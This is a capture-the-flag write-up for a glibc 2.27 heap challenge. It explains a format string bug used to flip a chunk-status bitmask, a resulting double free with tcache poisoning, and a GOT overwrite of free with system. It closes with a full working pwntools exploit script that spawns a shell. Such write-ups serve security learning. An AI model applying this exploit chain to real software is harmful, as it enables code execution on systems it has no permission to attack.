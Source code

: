 We are given 3 files the binary, zip archive with libc and ld and bash script that runs the binary. 
First let's look at the binary in IDA:

<img src="image1.png" width=500 height=500>

Here is the code that simply reads a character and executes a command appropriate to it. But what v4 variable used for ?
Lets look deep into the function allocate_chunk:

<img src="image2.png">

The function allocate_chunk first reads id,after that it checks if ID bit of v4 is 0 and if it is it reads size and content and sets the chunks[id] to malloc(size).
So v4 is used to check if chunk is freed or used. If the ID bit is set to 0 it is freed and if it's not it is allocated.
Now let's look at the list_chunks_content:

<img src="image3.png">

Function prints all the chunks content with printf passing the chunk address as the first argument and here we have a format string vulnerability. We don't have an arbitary write here because format string isn't on the stack, but address v4 is. So we can overwrite v4 to get double free.
The glibc2.27 is used in this task, in this version tcache was added. When multiple threads are using heap the heap manager locks the heap while one thread is using it to avoid errors.So to make the allocations faster peaple made a tcache. A tcache or per thread cache is a bin that is own for each of threads unlike the other bins, so when u are using a tcache heap manager doesn't need to lock a heap and allocations go faster. But there is no security checks in tcache. Since glibc2.27 tcache is used by default, You can read more about tcache here https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/.

Our strategy is pretty simple:
1. we leak the libc using format string vulnerabilitiy.
2. we create two chunks in second chunk is payload to overwrite the v4 with 0b111 (7).
3. free first chunk
4. overwrite the v4
5. free first chunk again
6. overwrite the v4 again
7. free first chunk again
8. allocate chunk with content p32(freegot) to overwrite the bk pointer to freeaddress in got table
9. allocate chunk with content "/bin/sh\x00"
10. allocate chunk with content p32(system)
11. free chunk with /bin/sh

The final exploit:
```python
from pwn import *
cmd = lambda x : p.sendlineafter('4) quit\n>', str(x))
answer = lambda x : p.sendlineafter(': ', str(x))
def allocate_chunk(id, size, content):
	cmd(1)
	answer(id)
	answer(size)
	answer(content)
	p.send('\n')

def delete_chunk(id):
	cmd(3)
	answer(id)
def list_chunks():
	cmd(2)
	return p.recvuntil('\n\n').split('\n')[:-2]
freegot = 0x804b43c
p = process('./df', env={'MALLOC_CHECK_':'0', 'LD_PRELOAD' : "/opt/glibc2.27x86/lib/libc.so.6 /opt/glibc2.27x86/lib/libpthread.so.0 /opt/glibc2.27x86/lib/ld-linux.so.2"})
#p = process('./df')
#p = remote('tasks.open.kksctf.ru', 10000)
libc = ELF('/opt/glibc2.27x86/lib/libc.so.6')
gdb.attach(p)
allocate_chunk(0, 128, '%13$p')
libc_base = int(list_chunks()[0][2:],16)-0x1dba5
system = libc_base+libc.symbols['system']
print 'LIBC leak:', hex(libc_base)
print 'system:', hex(system)
delete_chunk(0)
allocate_chunk(0, 128, 'a'*8)
allocate_chunk(1, 128, '%7c%6$hhn')
delete_chunk(0)
list_chunks()
delete_chunk(0)
list_chunks()
delete_chunk(0)
allocate_chunk(3, 128, p32(freegot))
allocate_chunk(5, 128, '/bin/sh\x00')
allocate_chunk(0, 128, p32(system))
delete_chunk(5)
p.interactive()```


